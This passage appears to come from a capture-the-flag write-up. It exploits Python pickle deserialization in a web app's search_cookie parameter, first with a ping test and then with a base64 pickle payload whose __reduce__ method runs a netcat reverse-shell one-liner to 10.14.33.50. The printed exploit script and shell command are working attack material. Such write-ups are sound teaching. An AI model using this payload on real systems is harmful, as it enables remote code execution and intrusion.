 So what this script does is that it imports the necessary requirement needed to perform the deserialization, makes a class which uses the pickle __reduce__  method of pickling then defines a variable which holds the command to be ran, after that it calls the class function and dumps the object value which is later then encoded in base64 and printed out.

Now since the command i used is to ping our hosts, we would want to confirm that it is indeed performing the ping request, i then set up tcpdump which will listen for icmp packets getting to our hosts.

So lets run the command and see if it works.
![image](https://user-images.githubusercontent.com/113513376/217817335-0540a2aa-ec59-4b14-8ad6-859900e707d2.png)

Now replacing the newly created base64 payload in the search_cookie parameter value.
![image](https://user-images.githubusercontent.com/113513376/217817417-6a392169-db64-4b1f-a9d1-a32bc378243d.png)

After sending the request. I get call back from our tcpdump listener.
![image](https://user-images.githubusercontent.com/113513376/217817494-9d86d2e9-46bd-41d5-93fa-3d42d969c59b.png)

Now lets get a reverse shell with this vulnerability. So i edited the code to run the command of a bash reverse shell.
![image](https://user-images.githubusercontent.com/113513376/217817554-851c0f14-465c-4f8c-ba0b-83e66d491db6.png)
![image](https://user-images.githubusercontent.com/113513376/217817877-319ac49a-d97b-4583-9f9d-38f3fc97796c.png)
![image](https://user-images.githubusercontent.com/113513376/217817954-451880ec-5722-4176-a0cd-5179eab1ed13.png)


```
import pickle
import os
import base64
#@author: Hack.You

class exploit:
	def __reduce__(self):
		cmd = ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.33.50 46074 >/tmp/f')
		return os.system, (cmd,)

exploit_code = exploit()
serialized = pickle.dumps(exploit_code)
encode = base64.b64encode(serialized)
print(encode)
```

On sending the request again, I get a call back from our listener.
![image](https://user-images.githubusercontent.com/113513376/217818071-30d202c7-88de-4c2d-90b5-0c9f301277fe.png)

From the result we see that this is a container cause the hostname is weird but we can also confirm it by checking the /.dockerenv file or the groups file anyone works.

Anyways lets move on.

On checking the root directory we see that there's a .bash_history file in it.
![image](https://user-images.githubusercontent.com/113513376/217818272-57aaa1d5-9a85-49c6-81bb-a81534450b3a.png)
